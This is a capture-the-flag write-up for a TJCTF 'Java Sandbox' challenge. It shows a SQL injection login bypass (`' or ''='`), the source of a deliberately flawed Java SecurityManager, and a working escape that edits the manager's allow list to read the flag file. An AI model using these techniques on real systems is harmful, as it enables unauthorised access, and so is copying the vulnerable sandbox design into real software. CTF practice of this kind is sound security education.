 # Java Sandbox (100 pts)


---


## Problem
Everyone's heard of python jail escapes, but what about Java? [Java Sandbox](http://javasandbox.p.tjctf.org/)

## Solution
At first, we are presented with a login portal. We try a random username and password, and a message in the corner appears to try MySQL injection.

We then login successfully with the username `' or ''='` and password `' or ''='`

At this point we reach a page where we can type, then submit a java program to compile and run it. In the security page, we are told that the flag resides at `/var/www/flag.txt`. We created a small java program to attempt to read this flag:

```
import java.io.BufferedReader;
import java.io.FileReader;

public class Main {
    public static void main(String[] args) throws Exception {
        BufferedReader read = new BufferedReader(new FileReader("/var/www/flag.txt"));
        System.out.println(read.readLine());
    }
}
```

However, when we submit this program, we get an error message saying that access was denied by the security manager, and we don't have permissions to read it.

We then see that source for the custom security manager and the program wrapper is available on the security page as well:

```
import java.lang.reflect.Method;
import java.security.Permission;
import java.util.ArrayList;
import java.util.Arrays;
class CustomSecurityManager extends SecurityManager {
    ArrayList<String> allow;
    String insecureClassName;
    String[] allowedLibraries = new String[] {"com.google","twitter4j","com.securefiledownloader"};
    public CustomSecurityManager(String className, String[] allowed) {
        insecureClassName = className;
        allow = new ArrayList<String>(Arrays.asList(allowed));
        // allow standard jre libraries
        allow.add(System.getProperty("java.home"));
    }

    public boolean checkAllow(String str) {
        for (String i : allow) {
            if (str.startsWith(i))
                return true;
        }
        return false;
    }

    public boolean isLibrary() {
        StackTraceElement[] stack = Thread.currentThread().getStackTrace();
        for (StackTraceElement s : stack) {
            // reached end
            if ((""+s).startsWith("Wrapper") || (""+s).startsWith(insecureClassName)) {
                return false;
            }
            // pass cases that obviously aren't libraries
            if ((""+s).startsWith("CustomSecurityManager") || (""+s).startsWith("java.") || (""+s).startsWith("sun.")) {
                continue;
            }
            for (String x : allowedLibraries) {
                if ((""+s).startsWith(x)) {
                    return true;
                }
            }
        }
        return false;
    }

    @Override
    public void checkPermission(Permission perm) {
        if (perm instanceof java.io.FilePermission) {
            if (!perm.getActions().equals("read")) {
                throw new SecurityException(""+perm);
            }
            // allow trusted libraries to access files
            if (!isLibrary()) {
                if (!checkAllow(perm.getName())) {
                    throw new SecurityException("File access denied! "+perm);
                }
            }
        }
        else if (perm instanceof java.net.SocketPermission || perm instanceof java.net.NetPermission || perm instanceof javax.net.ssl.SSLPermission) {
            // allow trusted libraries to access the internet
            if (!isLibrary()) {
                // need this to create URLs
                if (!perm.getName().equals("specifyStreamHandler")) {
                    throw new SecurityException("Socket access denied! "+perm);
                }
            }
        }
        else if (perm instanceof java.lang.RuntimePermission) {
            if (perm.getName().equals("setSecurityManager") || perm.getName().equals("createSecurityManager")) {
                throw new SecurityException("Nope! "+perm);
            }
            if (perm.getName().equals("createClassLoader") || perm.getName().equals("preferences")) {
                throw new SecurityException("Nah... "+perm);
            }
            if (perm.getName().equals("queuePrintJob")) {
                throw new SecurityException("Why... "+perm);
            }
        }
        else if (perm instanceof java.security.SecurityPermission) {
            throw new SecurityException("Permission denied! "+perm);
        }
        else if (perm instanceof java.sql.SQLPermission || perm instanceof java.util.logging.LoggingPermission || perm instanceof java.awt.AWTPermission) {
            // just in case...
            throw new SecurityException("Permission denied! "+perm);
        }
        // i think thats everything
    }
}

import java.lang.reflect.Method;
public class Wrapper {
    public static void main(String[] args) {
        args[0] = "Main";
        // args[0] is the name of the class to run
        // args[1] is a colon separated list of directories your program can access
        System.setSecurityManager(new CustomSecurityManager(args[0], args[1].split(":")));
        try {
            Class<?> unsafeClass = ClassLoader.getSystemClassLoader().loadClass(args[0]);
            Method m = unsafeClass.getMethod("main", String[].class);
            m.invoke(null, new Object[] {new String[] {}});
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Upon analysing this, we see that access to the file is restricted because its path is not in the `allow` list.

From the wrapper class, we see that CustomSecurityManager is in the same namespace as where "Main" (the uploaded class) is located. This means we can reference the CustomSecurityManager directly.

We then run the following code and successfully read the flag:
```
import java.io.BufferedReader;
import java.io.FileReader;
import java.util.List;
public class Main {
    public static void main(String[] args) throws Exception {
        CustomSecurityManager csm = (CustomSecurityManager)System.getSecurityManager(); //get instance of the CustomSecurityManager class
        System.out.println(csm.allow);
        List<String> allow = csm.allow; //add to the allow list
        allow.add("/var/www/flag.txt");
        System.out.println(allow);
        BufferedReader read = new BufferedReader(new FileReader("/var/www/flag.txt"));
        System.out.println(read.readLine());
    }
}
```
